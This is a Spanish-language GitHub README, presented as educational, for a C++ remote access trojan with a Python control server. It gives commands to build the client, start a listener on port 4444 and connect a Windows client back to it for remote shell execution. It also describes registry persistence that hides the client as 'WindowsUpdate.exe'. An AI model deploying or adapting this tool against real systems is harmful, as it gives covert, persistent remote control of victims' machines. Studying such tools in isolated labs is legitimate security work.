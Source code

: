 # RAT C++

> [!WARNING]
> Aunque es algo super sencillo prefiero no tener directamente malware en mis repos de GitHub así que, por favor, descargue la `encryption 1.key` adjunta y ejecute el código para desencriptar:
> `./direncrypt ./Client -d encryption\ 1.key`

> SHA original: `fb78bee1941d787ce88a531f444aab5d785e6d065d0db7c25acd6bf3d820c93a`

Si no quiere hacer el proceso hay una [demostración](#demostración) al final de este README.

---

Este proyecto es una implementación con fines educativos de un RAT que permite la ejecución remota de comandos en una máquina Windows desde un servidor en Linux. Toda la comunicación se encuentra cifrada utilizando **AES-128 (CBC)** para garantizar la confidencialidad.

El cliente está desarrollado en **C++** para Windows y el servidor en **Python**.

## Características

  - **Canal de Comunicación Cifrado:** Utiliza una clave precompartida AES-128 para cifrar todo el tráfico.
  - **Ejecución Remota de Comandos:** El servidor puede enviar cualquier comando de la shell de Windows al cliente y recibir la salida.
  - **Mecanismo de Persistencia:** El cliente puede instalarse en el sistema Windows para ejecutarse automáticamente en cada inicio de sesión.
  - **Cross-Compilation:** El cliente de Windows se compila fácilmente desde un entorno Linux usando `MinGW-w64`.

## Estructura del Proyecto

```
.
├── Client
│   ├── build.sh
│   ├── client.exe
│   ├── comm.cpp
│   ├── crypto.cpp
│   ├── exec.cpp
│   ├── include
│   │   ├── comm.h
│   │   ├── crypto.h
│   │   ├── exec.h
│   │   └── persist.h
│   ├── main.cpp
│   ├── Makefile
│   └── persist.cpp
├── direncrypt
├── keygen.py
└── Server
    ├── requirements.txt
    └── server.py
```

## Requisitos Previos

### Entorno de Compilación (Linux)

Para compilar el cliente (`client.exe`) necesitas un entorno Linux con el compilador cruzado **MinGW-w64**.

  - En **Debian/Ubuntu**, puedes instalarlo con:
    ```bash
    sudo apt update
    sudo apt install -y mingw-w64
    ```

### Entorno del Servidor (Python)

El servidor requiere Python 3 y algunas librerías externas.

1.  Navega al directorio del servidor:
    ```bash
    cd Server/
    ```
2.  Instala las dependencias usando el archivo `requirements.txt`:
    ```bash
    pip install -r requirements.txt
    ```

> Se recomienta usar un entorno virtual

## Tutorial de Uso

### Paso 1: Generar una Clave de Cifrado

El script `keygen.py` genera una clave AES-128 segura de 32 caracteres hexadecimales que necesitarán tanto el cliente como el servidor.

```bash
python3 keygen.py
```

**Salida de ejemplo:**

```
============================================================
  AES-128 Key Generator
============================================================

Generated Key: 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D

Length: 32 characters (16 bytes)
...
```

**Guarda esta clave, la necesitarás en los siguientes pasos.**

### Paso 2: Compilar el Cliente para Windows

Desde tu máquina Linux, navega al directorio del cliente y ejecuta el script de compilación.

```bash
cd Client/
./build.sh
```

Si la compilación es exitosa, se creará el archivo `client.exe` en el directorio `Client/`.

### Paso 3: Configurar el Entorno de Pruebas

Para probar la aplicación de forma segura, se recomienda usar una máquina virtual (VM) de Windows.

1.  **Monta la carpeta del proyecto** como un volumen compartido o una carpeta de red en tu VM de Windows. Esto te permitirá acceder al `client.exe` compilado desde dentro de la VM.
2.  Asegúrate de que la red de la VM esté configurada para que pueda comunicarse con la máquina anfitriona (Linux). Una configuración de red "Puente" (Bridged) o "NAT" suele funcionar.

> [!NOTE]
> La carpeta compartida no es necesaria pero yo lo hice así para el desarrollo

### Paso 4: Iniciar el Servidor

En tu máquina Linux, ejecuta el `server.py` especificando un puerto y la clave AES que generaste en el Paso 1.

```bash
# Formato: python3 Server/server.py <PUERTO> <CLAVE_AES>
python3 Server/server.py 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D
```

El servidor comenzará a escuchar conexiones entrantes.

### Paso 5: Ejecutar el Cliente

Dentro de tu VM de Windows, abre una terminal (CMD o PowerShell) y ejecuta el cliente.

  - **IP:** La dirección IP de tu máquina anfitriona Linux.
  - **PUERTO:** El mismo puerto que usaste para el servidor.
  - **CLAVE\_AES:** La misma clave que usaste para el servidor.

<!-- end list -->

```powershell
# Formato: ./client.exe <IP_SERVIDOR> <PUERTO> <CLAVE_AES> [--persist | --nopersist]

.\client.exe 192.168.1.100 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D --nopersist
```

Si todo es correcto, verás un mensaje de conexión en el servidor y aparecerá una shell interactiva `RAT >`.

## Argumentos del Cliente y Persistencia

El comportamiento del cliente se puede controlar con los siguientes argumentos:

  - `--persist`: Al usar esta opción, el cliente se copiará a sí mismo a la carpeta `%APPDATA%` y creará una clave en el registro de Windows para ejecutarse automáticamente cada vez que el usuario inicie sesión.
  - `--nopersist`: El cliente se ejecuta una sola vez y no realiza ninguna modificación en el sistema. Si no se especifica `--persist` ni `--nopersist`, este es el comportamiento por defecto.
  - `--appname <NOMBRE>`: Permite especificar un nombre para el archivo copiado y la entrada del registro cuando se usa la persistencia (el valor por defecto es `WindowsUpdate.exe`).

> [\!NOTE]
> Cuando la persistencia se instala, el programa guarda el comando completo (incluyendo IP, puerto y clave) en el registro para poder reconectarse automáticamente después de un reinicio.

## Comandos Remotos Especiales

Una vez conectado, además de los comandos estándar de Windows (`dir`, `whoami`, etc.), puedes usar los siguientes comandos desde la shell del servidor:

  - `persist_install`: Instala la persistencia en la máquina cliente.
  - `persist_remove`: Elimina la persistencia del cliente.
  - `persist_check`: Verifica si la persistencia está activa.
  - `exit` o `quit`: Cierra la conexión con el cliente.

> [!WARNING]
> Este software está diseñado únicamente con fines educativos. Su uso está destinado a entornos controlados y aislados, como máquinas virtuales. No utilices esta herramienta en sistemas para los que no tengas autorización explícita.

# Demostración

## Poniendo el servidor en escucha

<p align="center">
    <img src="resources/server_en_escucha.png" alt="Server en escucha"/>
</p>

## Activando el RAT

<p align="center">
    <img src="resources/RAT_activado.png" alt="RAT activado"/>
</p>

## Usando el RAT

<p align="center">
    <img src="resources/usando_el_RAT.png" alt="Usando el RAT"/>
</p>
